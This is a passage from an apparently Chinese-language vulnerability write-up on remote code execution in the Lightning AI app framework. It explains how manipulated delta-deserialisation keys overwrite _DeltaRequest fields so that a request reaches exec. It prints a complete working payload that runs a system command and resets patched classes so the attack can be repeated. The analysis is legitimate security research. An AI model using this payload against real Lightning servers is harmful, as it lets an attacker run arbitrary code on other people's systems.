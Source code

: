 经过以上操作对属性修改，我们将`root.__init__.__builtins__.exec`赋值给`_DeltaRequest`的`name`属性，在`get_component_by_name`中对路径解析并获得`exec`对象

，想要让类的实例像函数一样被调用，实际上是通过`__call__`方法实现的，所以通过`getattr(flow, request.method_name)`获取他的`__call__`方法，然后在下面的`method(*request.args, **request.kwargs)`进行调用，最终实现任意函数执行

payload：

```python
injected_code = f"__import__('os').system('calc.exe')" + '''
import lightning, sys
from lightning.app.api.request_types import _DeltaRequest, _APIRequest
lightning.app.core.app._DeltaRequest = _DeltaRequest
from lightning.app.structures.dict import Dict
lightning.app.structures.Dict = Dict
from lightning.app.core.flow import LightningFlow
lightning.app.core.LightningFlow = LightningFlow
LightningFlow._INTERNAL_STATE_VARS = {"_paths", "_layout"}
lightning.app.utilities.commands.base._APIRequest = _APIRequest
del sys.modules['lightning.app.utilities.types']'''

"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.name": "root.__init__.__builtins__.exec",
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.method_name": "__call__",
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.args": (injected_code,),
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.kwargs": {},
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.id": "root"
```

这里注入代码里除了有我们执行命令的语句，后面还跟了一堆，这是为了将之前绕过过程中修改的类还原，否则再次更换注入命令后不会走动态赋值的那部分代码。并且动态赋值的部分代码在绕过之后，所以我们发送第一个请求后需要再发一次请求才会走我们动态覆盖变量后的逻辑

![image-20240912172426297](https://shs3.b.qianxin.com/butian_public/fac09628e57d7fde9dcdbbe834f8c9d57.png)

总结：首先将传入的内容通过反序列化成一个对象，然后通过对字典键的解析作为函数调用的路径，值作为赋值的内容，可以动态修改所有类的属性和方法，然后通过绕过一系列的`isinstance`判断，最终在`get_component_by_name`方法内，该方法允许我们查找任意对象，最后在`method(*request.args, **request.kwargs)`进行调用，最终实现任意函数执行